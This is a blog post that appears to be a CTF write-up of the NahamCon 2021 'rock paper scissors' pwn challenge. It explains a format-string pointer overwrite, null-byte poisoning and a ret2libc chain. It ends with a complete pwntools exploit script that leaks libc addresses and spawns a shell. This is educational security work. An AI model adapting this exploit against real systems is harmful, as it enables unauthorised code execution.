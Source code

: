 ```yaml
---
layout: post
title: NahamCon 2021 rock paper scissors (pwn)
---
```


This weekend, there was a blue moon, so I figured I'd upload something to my blog again.

# Rock paper scissors
The program itself is straightforward. The user gets asked if they want to play rock, paper, scissors. The user can answer with y or n. If the user chooses to play, the program presents the user with 3 options: rock, paper or scissors. They can be selected through putting a number in for which option they'd like to choose. Next, the program will tell the user whether they lost or won, presumably based on a randomized guess from the computer and a simple logic check. Regardless, the user will be presented with the option to play again. This time, the user can fill in more than a character, namely "yes" or "no". If the user puts in "yes", the game starts again. If the user puts in anything else, the program exits.

## Preliminary analysis
I started by running checksec on the binary. RELRO and NX were enabled, but stack canaries and PIE were not. This lead me to think that the vulnerability was a stack overflow one. The binary also came with a libc file, so the stack overflow would probably have to be chained with a libc memory address leak, forming a ret2libc exploit.

## The vulnerability
Opening the binary in Ghidra, we can see that the function containing the game loop gets the selected option from the user through a call to scanf(), meaning that at this time, this call is not vulnerable to any buffer overflows, since the format string only accepts integers. Unfortunately, this is the only function call that stores its input on the stack. Later on, the game asks whether the user wants to play again or not. This is done through a call to read(), which takes 0x19 bytes and stores it in a global variable in the .data section, meaning that it can not cause a stack buffer overflow. We will call the variable playAgainAnswer. The read() call's destination might have other things it can override that might be interesting to the attacker, though.

The playAgainAnswer variable is located right before the pointer that points to the format string used in the scanf() call that gets the user's choice. The attacker can put in 0x19 bytes, which is just enough to overflow the least significant byte of the format string pointer. If there is a format string in memory that takes strings instead of integers, the pointer can be overwritten to use that instead. Right before the "%d" format string, there is in fact a "%s" string.

One issue with this vulnerability is that the game loop needs to be run again after corrupting the format string pointer, but the playAgainAnswer needs to be "yes\n" in order for that to happen, which is not the case if we feed it the overflow payload. The function that is used to compare the strings is strcmp(), which stops comparing when the null byte is hit on both strings. One trick to bypass this is through null-byte poisoning. This means that the payload starts with "yes\n", followed by a null byte, which is followed by the payload.

## Crafting the exploit
After sending the payload, the user will again be presented with the prompt to select an option, only this time it can send whatever data it wants. The attacker can now overflow the buffer on the stack and gain control of the instruction pointer. Since there is no code that can be used to get a shell in the binary itself, I needed to craft a ret2libc exploit.

The first step is leaking the base address of libc. I started by building a payload that executes the puts() function, with the GOT address of puts as its argument, followed by a call to main(), which will effectively start the program from the beginning, allowing us to perform a second buffer overflow that gets us the shell. The libc file provided by the challenge can be used to get the proper offsets of the symbols to calculate the base address and the addresses of "/bin/sh" and system(). This worked locally, but not remotely for some reason. This was because the stack was not 16-bytes alligned. This was solved with a simple call to ret before executing the shell payload.

```python
from pwn import *

elf = context.binary = ELF("rps")
libc = ELF("./libc-2.31.so")

gs = '''
break *0x401452
continue
'''

def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    else:
        return process(elf.path)

def set_scanf_d_to_s(p):
    payload = b"yes\n\x00" + b"A"*0x13 + b"\x08"
    time.sleep(0.2)
    p.sendline(b"y")
    time.sleep(0.2)
    p.sendline(b"1")
    time.sleep(0.2)
    p.sendline(payload)


# rop gadgets
poprdi = p64(0x401513)
putsgot = p64(0x403f98)
putsplt = p64(0x401100)
ret = p64(0x40101a)

main_addr = p64(0x401453)

leak_base_payload = b"A"*0x14 + poprdi + putsgot + putsplt + main_addr

p = start()

set_scanf_d_to_s(p)

time.sleep(0.2)
p.sendline(leak_base_payload)

time.sleep(0.2)
p.recvuntil(b"Would you like to play again? [yes/no]: ")
p.sendline(b"no")

# get leaked puts address from output
leak = p.recvuntil(b"How")
leak_offset = leak.find(b"]:") + 3
address = leak[leak_offset:-4]
puts_address = int.from_bytes(address, byteorder='little')

libc.address = puts_address - libc.symbols["puts"]
binsh = next(libc.search(b"/bin/sh"))
system = libc.sym["system"]

shell_payload = b"A"*0x14 + ret + poprdi + p64(binsh) + p64(system)

set_scanf_d_to_s(p)

time.sleep(0.2)
p.sendline(shell_payload)

time.sleep(0.2)
p.recvuntil(b"Would you like to play again? [yes/no]: ")
p.sendline(b"no")

p.interactive()
```

